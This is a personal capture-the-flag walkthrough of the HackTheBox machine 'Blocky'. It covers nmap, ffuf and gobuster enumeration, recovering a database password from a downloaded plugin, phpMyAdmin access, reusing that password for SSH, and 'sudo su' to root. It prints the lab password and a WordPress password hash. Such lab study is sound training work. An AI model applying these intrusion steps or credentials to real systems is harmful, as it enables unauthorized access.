 OS: Linux 
Tags: WordPress

Nmap Enumeration
```
PORT     STATE  SERVICE REASON         VERSION
21/tcp   open   ftp     syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp   open   ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp   open   http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos  reset ttl 63
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

add http://blocky.htb to vhost `/etc/hosts` and then  go to `http://blocky.htb`

also run the nmap scan again just for port 80 to see the details
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1
```


subdomain enumeration
```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://blocky.htb' -H "Host:FUZZ.blocky.htb" -fs 178
```
returns nothing -> no subdomains 

web directory enumeration 
```
gobuster dir -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
returns 
```
/.htaccess            (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 294]
/.hta                 (Status: 403) [Size: 289]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/server-status        (Status: 403) [Size: 298]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
Progress: 4744 / 4745 (99.98%)
/xmlrpc.php           (Status: 405) [Size: 42]
```

important ones 
/phpmyadmin/ -> goes to the phpmyadmin login portal -> most likely a database? 
/wp-includes/ -> can see all files structures in the web root directory but cannot be the contend of the files 
/plugins/ -> can see BlockyCore.jar file and grief.prevention-1.1...
![](../Assets/Screenshot%202025-05-22%20at%202.38.10%20PM.png)

Download both files and unzip them. 
In BlockyCore.jar, there is a BlockCore.class (its a java plugin)
cat it:
![](../Assets/Screenshot%202025-05-22%20at%202.45.21%20PM.png)
im guessing the sql username is `root` and the password is `8YsqfCTnvxAUeduzjNSXe22` -> we try to login into php my admin with this credentials
![](../Assets/Screenshot%202025-05-22%20at%202.47.07%20PM.png)
then under the wordpress database we can see wp_users
![](../Assets/Screenshot%202025-05-22%20at%202.51.08%20PM.png)
then we can see that there is a account with user_login: `Notch`and pass: `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`
![](../Assets/Screenshot%202025-05-22%20at%202.51.39%20PM.png)

we can try to crack the hash using hashcat
```
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
this doesn't return anything

i tried to login everything with the usernames 'root' and 'notch' and the only password '8YsqfCTnvxAUeduzjNSXe22'

managed to ssh and ftp into the box with user 'notch' and password '8YsqfCTnvxAUeduzjNSXe22'

both works
![](../Assets/Screenshot%202025-05-22%20at%203.17.14%20PM.png)![](../Assets/Screenshot%202025-05-22%20at%203.17.26%20PM.png)

and we are able to get the user flag

running 
```
sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
that means Blocky is in the sudo-ers group and can use sudo 
run
```
sudo su
```
and then now we are root
we can go to the root directory and then cat out the root.txt file

yay we have pwned the machine!